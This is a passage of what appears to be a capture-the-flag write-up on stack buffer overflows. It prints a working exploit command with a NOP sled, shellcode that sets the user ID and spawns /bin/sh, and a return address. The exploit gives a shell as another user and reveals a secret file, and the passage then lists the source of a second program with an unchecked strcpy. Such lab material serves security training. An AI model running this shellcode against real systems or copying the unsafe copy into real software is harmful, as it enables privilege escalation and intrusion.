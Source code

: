 ```sh
[user1@ip-10-10-222-59 overflow-3]$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shIAPH��RWH��j<XH1�AAAAAAAAAAAA�����
sh-4.2$ exit
[user1@ip-10-10-222-59 overflow-3]$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shIAPH��RWH��j<XH1�BBBBBBBBBBBBh����
Illegal instruction
```

ended up being my return address `\x68\xe2\xff\xff\xff\x7f` didn't work, but `\x98\xe2\xff\xff\xff\x7f` did.

```sh
[user1@ip-10-10-222-59 overflow-3]$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x98\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shIAPH��RWH��j<XH1�BBBBBBBBBBBB�����
sh-4.2$ whoami
user2
sh-4.2$ ls
buffer-overflow  buffer-overflow.c  secret.txt
sh-4.2$ cat secret.txt
omgyoudidthissocool!!
```

## Buffer Overflow #2

The 2nd overflow, in the `buffer-overflow-4` folder:

```c
#include <stdio.h />
#include <stdlib.h />

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```
